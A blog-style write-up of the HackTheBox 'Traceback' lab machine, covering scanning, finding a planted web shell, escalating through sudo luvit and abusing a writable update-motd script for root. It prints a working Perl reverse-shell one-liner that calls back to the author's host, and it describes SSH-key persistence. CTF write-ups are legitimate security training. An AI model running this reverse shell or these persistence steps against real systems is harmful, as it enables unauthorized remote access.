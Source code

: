```yaml
---
title: Traceback Writeup - Machine
author: Sujit Suryawanshi
date: 2020-08-01 14:10:00 +0800
categories: [Writeup, HackTheBox]
tags: [hackthebox, htb, traceback]
---
```


<h2 data-toc-skip>Writeup of Traceback Machine (HackTheBox)</h2>


![Desktop View]({{ "/assets/img/traceback-main.png" | relative_url }})

Today I did Traceback box from HackTheBox.
It was nice box, CTF-like box in which the website has been hacked and placed one backdoor shell to access.
So the backdoor shell was the way to get initial shell and then need to get user by adding own ssh keys and then can go for Privilege Escalation to get root.

The box was using UpdateMotd which was running one custom script after a particular time. And the user had access to write into 00-header file which was executing.
Se lets move and Pwn this box.


---

<h3 data-toc-skip>Starting with Nmap</h3>

#### sudo nmap -sC -sV -T4 10.10.10.181

![Desktop View]({{ "/assets/img/blunder-nmap.png" | relative_url }})

We used -sC for Default Script, -sV Service Version Scan, -T4 for Timing.
As you can see there are two ports open that is port 22 and 80. Port 80 hosting web server which has Apache httpd 2.4.29 also the OS was Ubuntu, so we moved towards port 80 for further enumeration.



After opening the website in browser, There was note from hacker who have defaced the site.

![Desktop View]({{ "/assets/img/traceback-website-defaced.png" | relative_url }})

Continuing to enumeration I checked the page source of website for comments and other juicy information.
Then I found one comment in HTML page of website.

![Desktop View]({{ "/assets/img/traceback-html-comment.png" | relative_url }})

After doing some web fuzzing using names of common backdoor shell, I found there was shell named "smevk.php" <http://10.10.10.181/smevk.php>

![Desktop View]({{ "/assets/img/traceback-ffuf.png" | relative_url }})

Visiting above url, Got login page of web shell.

![Desktop View]({{ "/assets/img/traceback-shell.png" | relative_url }})

I used default credentials as admin:admin to login into shell.

![Desktop View]({{ "/assets/img/traceback-shell-login.png" | relative_url }})

So here we got the access to backdoor shell and it's time to get full interactive shell.
Moving forward, I did some google for getting tty shell and got a tty shell using perl command given below.

perl
perl -e 'use Socket;$i="10.10.14.167";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'


Then I used /usr/bin/script -qc /bin/bash /dev/null to make tty shell interactive.

Basically what this command does here -qc is script flag and -c means running a command instead of an interactive shell & -q means to be quiet as in not to print output through STDOUT.

Moving further, I found that machine has two users that is webadmin and sysadmin.

![Desktop View]({{ "/assets/img/traceback-users-list.png" | relative_url }})

As I had access of .ssh of folder I added my system's key in authorized_keys file so that I'll get access of this system using ssh.

![Desktop View]({{ "/assets/img/traceback-ssh-keys.png" | relative_url }})

After doing login by ssh I saw a weird message printed on screen.

![Desktop View]({{ "/assets/img/traceback-ssh-login.png" | relative_url }})

Anyway lets move further for sysadmin user.
While enumerating more, I found note.txt which contains,

![Desktop View]({{ "/assets/img/traceback-sysadmin-note.png" | relative_url }})

Checking sudo -l, I got that luvit was allowed to run as sudo with sysadmin user.

![Desktop View]({{ "/assets/img/traceback-luvit.png" | relative_url }})

So for Privilege Escalation and User flag I ran luvit with sudo and executed "/bin/bash" which gave me sysadmin.

![Desktop View]({{ "/assets/img/traceback-sysadmin-user.png" | relative_url }})

Next part in Privilege Escalation for root.
So while enumerating for root, I saw one odd service like,

root       5660  0.0  0.0   4628   772 ?        Ss   17:48   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/

After checking out both directories which are given in above service, I found writable file under "/etc/update-motd.d/" directory named 00-header.

So this file was executing and printing some text on login of SSH.

![Desktop View]({{ "/assets/img/traceback-00-header.png" | relative_url }})

Also the file was writable by sysadmin user which we have already owned.

Then I read flag by appending my command in the 00-header file and re-logged in using SSH and got root.txt also


![Desktop View]({{ "/assets/img/traceback-root.png" | relative_url }})

![Desktop View]({{ "/assets/img/traceback-root-1.png" | relative_url }})


Thanks for reading this writeup and all suggestions are welcome.
